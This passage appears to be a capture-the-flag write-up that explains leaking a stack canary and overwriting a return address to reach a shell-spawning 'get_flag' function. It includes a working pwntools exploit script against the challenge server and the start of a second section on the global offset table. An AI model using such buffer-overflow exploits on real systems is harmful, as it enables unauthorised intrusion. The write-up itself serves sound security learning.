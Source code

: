 There is also a function symbol for a ```get_flag``` function which spawns us a shell.

Gameplan is to leak the canary value using the length input and construct a second payload that will be delivered as the third input. First we need to find the offset to the canary.

The canary is stored on the stack at ```rbp-0x8``` and our input is at ```rbp-0x70```. So our offset is ```0x70 - 0x8 = 104```. Now, for reasons I still don't quite understand, this offset was actually 120. It took a lot of fiddling with the script to get it to return the canary value.

Now we need to find the offset of the return address. If we bust our ```pwndbg``` and use the ```cyclic``` and ```cyclic -l``` combo after setting a breakpoint at the return instruction, we see that the offset is 120. Now we have all the information we need.
```python
#!/usr/bin/env python3

from pwn import *

e = ELF('./canary')

get_flag_addr = p64(e.symbols['get_flag'])

r = remote('forever.isss.io', 1308)
#r = gdb.debug('./canary', '''
#              b *0x00000000004012f2
#              continue
#              ''')

r.recvline()
r.recvline()
r.sendline(b'130')
r.recvline()
r.sendline(b'leak_canary')
canary = u64(r.recv(numb=130)[120:120+8])
print(hex(canary))

payload = b'A'*104 + p64(canary) + p64(0x00) +  get_flag_addr

r.recvline()
r.recvline()
r.sendline(payload)
r.recvline()
r.interactive()
```

### Get My Got

This challenge is centered around the procedure linkage table and the global offset table.

When we check the file type, we see that it is a 64-bit, dynamically linked, and not stripped.
```
getmygot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6ef3b5b912639ef8ed0b69e607a84a1b73bf5f6, for GNU/Linux 3.2.0, not stripped
```

